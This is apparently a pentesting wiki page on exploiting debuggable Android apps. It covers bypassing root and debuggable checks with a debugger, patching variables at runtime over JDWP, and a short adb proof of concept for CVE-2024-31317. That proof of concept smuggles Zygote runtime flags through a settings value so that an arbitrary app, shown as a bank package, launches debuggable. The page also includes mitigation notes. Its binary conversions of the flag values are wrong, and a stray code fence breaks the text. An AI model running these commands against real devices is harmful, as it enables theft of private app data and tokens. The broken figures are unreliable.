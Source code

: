 # Exploiting a debuggeable application


# **Bypassing root and debuggeable checks**

This section of the post is a summary from the post [[https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0|**https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0**]]

## Steps to Make an Android App Debuggable and Bypass Checks

### **Making the App Debuggable**

Content based on https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0

1. **Decompile the APK:**

   - Utilize the APK-GUI tool for decompiling the APK.
   - In the _android-manifest_ file, insert `android:debuggable="true"` to enable debugging mode.
   - Recompile, sign, and zipalign the modified application.

2. **Install the Modified Application:**

   - Use the command: `adb install <application_name>`.

3. **Retrieve the Package Name:**

   - Execute `adb shell pm list packages –3` to list third-party applications and find the package name.

4. **Set the App to Await Debugger Connection:**

   - Command: `adb shell am setup-debug-app –w <package_name>`.
   - **Note:** This command must be run each time before starting the application to ensure it waits for the debugger.
   - For persistence, use `adb shell am setup-debug-app –w ––persistent <package_name>`.
   - To remove all flags, use `adb shell am clear-debug-app <package_name>`.

5. **Prepare for Debugging in Android Studio:**

   - Navigate in Android Studio to _File -> Open Profile or APK_.
   - Open the recompiled APK.

6. **Set Breakpoints in Key Java Files:**
   - Place breakpoints in `MainActivity.java` (specifically in the `onCreate` method), `b.java`, and `ContextWrapper.java`.

### **Bypassing Checks**

The application, at certain points, will verify if it is debuggable and will also check for binaries indicating a rooted device. The debugger can be used to modify app info, unset the debuggable bit, and alter the names of searched binaries to bypass these checks.

For the debuggable check:

1. **Modify Flag Settings:**
   - In the debugger console's variable section, navigate to: `this mLoadedAPK -> mApplicationInfo -> flags = 814267974`.
   - **Note:** The binary representation of `flags = 814267974` is `11000011100111011110`, indicating that the "Flag_debuggable" is active.

![[https://miro.medium.com/v2/resize:fit:1400/1*-ckiSbWGSoc1beuxxpKbow.png|https://miro.medium.com/v2/resize:fit:1400/1*-ckiSbWGSoc1beuxxpKbow.png]]

These steps collectively ensure that the application can be debugged and that certain security checks can be bypassed using the debugger, facilitating a more in-depth analysis or modification of the application's behavior.

Step 2 involves changing a flag value to 814267972, which is represented in binary as 110000101101000000100010100.

# **Exploiting a Vulnerability**

A demonstration was provided using a vulnerable application containing a button and a textview. Initially, the application displays "Crack Me". The aim is to alter the message from "Try Again" to "Hacked" at runtime, without modifying the source code.

## **Checking for Vulnerability**

- The application was decompiled using `apktool` to access the `AndroidManifest.xml` file.
- The presence of `android_debuggable="true"` in the AndroidManifest.xml indicates the application is debuggable and susceptible to exploitation.
- It's worth noting that `apktool` is employed solely to check the debuggable status without altering any code.

## **Preparing the Setup**

- The process involved initiating an emulator, installing the vulnerable application, and using `adb jdwp` to identify Dalvik VM ports that are listening.
- The JDWP (Java Debug Wire Protocol) allows debugging of an application running in a VM by exposing a unique port.
- Port forwarding was necessary for remote debugging, followed by attaching JDB to the target application.

## **Injecting Code at Runtime**

- The exploitation was carried out by setting breakpoints and controlling the application flow.
- Commands like `classes` and `methods <class_name>` were used to uncover the application’s structure.
- A breakpoint was set at the `onClick` method, and its execution was controlled.
- The `locals`, `next`, and `set` commands were utilized to inspect and modify local variables, particularly changing the "Try Again" message to "Hacked".
- The modified code was executed using the `run` command, successfully altering the application’s output in real-time.

This example demonstrated how the behavior of a debuggable application can be manipulated, highlighting the potential for more complex exploits like gaining shell access on the device in the application's context.

---

# 2024 – Turning **any** application into a debuggable process (CVE-2024-31317)

Even if the target APK is _not_ shipped with the `android:debuggable` flag, recent research showed that it is possible to force **arbitrary applications** to start with the `DEBUG_ENABLE_JDWP` runtime flag by abusing the way Zygote parses command-line arguments.

*   **Vulnerability:** Improper validation of `--runtime-flags` supplied through Zygote’s command socket allows an attacker that can reach `system_server` (for example via the privileged `adb` shell which owns the `WRITE_SECURE_SETTINGS` permission) to inject extra parameters. When the crafted command is replayed by `system_server`, the victim app is forked as _debuggable_ and with a JDWP thread listening. The issue is tracked as **CVE-2024-31317** and was fixed in the June 2024 Android Security Bulletin.
*   **Impact:** Full read/write access to the private data directory of **any** app (including privileged ones such as `com.android.settings`), token theft, MDM bypass, and in many cases a direct path to privilege-escalation by abusing exported IPC endpoints of the now-debuggable process.
*   **Affected versions:** Android 9 through 14 prior to the June 2024 patch level.

## Quick PoC

```bash
# Requires: adb shell (device must be <2024-06-01 patch-level)
# 1. Inject a fake API-denylist exemption that carries the malicious Zygote flag
adb shell settings put global hidden_api_blacklist_exemptions "--runtime-flags=0x104|Lcom/example/Fake;->entryPoint:"

# 2. Launch the target app – it will be forked with DEBUG_ENABLE_JDWP
adb shell monkey -p com.victim.bank 1

# 3. Enumerate JDWP PIDs and attach with jdb / Android-Studio
adb jdwp               # obtain the PID
adb forward tcp:8700 jdwp:<pid>
jdb -connect com.sun.jdi.SocketAttach:hostname=localhost,port=8700
```
```
> The crafted value in step 1 breaks the parser out of the “fast-path” and appends a second synthetic command where `--runtime-flags=0x104` (`DEBUG_ENABLE_JDWP | DEBUG_JNI_DEBUGGABLE`) is accepted as if it had been supplied by the framework. Once the app is spawned, a JDWP socket is opened and regular dynamic-debug tricks (method replacement, variable patching, live Frida injection, etc.) are possible **without modifying the APK or the device boot image**.

## Detection & Mitigation

*   Patch to **2024-06-01** (or later) security level – Google hardened `ZygoteCommandBuffer` so that subsequent commands cannot be smuggled in this way.
*   Restrict `WRITE_SECURE_SETTINGS` / `shell` access on production devices. The exploit requires this permission, which is normally only held by ADB or OEM-privileged apps.
*   On EMM/MDM-managed fleets, enforce `ro.debuggable=0` and deny shell via `adb disable-verifier`.

---

## References

- [[https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0|https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0]]
- [[https://resources.infosecinstitute.com/android-hacking-security-part-6-exploiting-debuggable-android-applications|https://resources.infosecinstitute.com/android-hacking-security-part-6-exploiting-debuggable-android-applications]]
- [[https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html|https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html]]
- [[https://blog.flanker017.me/cve-2024-31317/|https://blog.flanker017.me/cve-2024-31317/]]

